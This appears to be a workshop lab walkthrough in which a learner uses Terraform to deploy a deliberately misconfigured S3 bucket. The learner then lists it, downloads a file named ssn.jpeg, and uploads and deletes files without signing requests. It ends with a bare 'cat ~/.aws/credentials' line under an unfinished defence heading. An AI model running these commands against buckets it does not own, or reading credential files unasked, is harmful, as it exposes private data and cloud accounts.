 # S3 Misconfiguration

* Clone the repository 

```bash
    git clone https://github.com/bvabhishek/s3misconfiguration.git
```
* Step 1: Change Directory

```bash
cd /s3misconfiguration
```
* Step : Initialise terraform 

```bash
   terraform init
```

* Step : Run `terraform apply -auto-approve`

```bash
terraform apply -auto-approve
```

* Step 4: Export bucket name
```bash
export s3bucket=<bucketname> 
```

* Step 5: Lets try to list down the contents of bucket

```bash
aws s3 ls s3://$s3bucket
```

* Step 6: Now lets perform all the possible attacks

* Step 7: Lets first download the fishy files 

```bash
 aws s3 cp s3://$s3bucket/ssn.jpeg /home/abhi/seasides/

```

* Step 8: Let's upload a new file 

```bash
 aws s3 cp main.tf s3://$s3bucket --no-sign-request --region us-west-2
```

* Step 9: Let's Delete a file 


```bash
aws s3 rm s3://$s3bucket/output.tf --no-sign-request --region us-west-2
```


* By this we can figure out that all sensitive data has been compromised and due to misconfiguration of bucket we have a complete control of the bucket


Now how to put a control on it or Defend 




cat ~/.aws/credentials
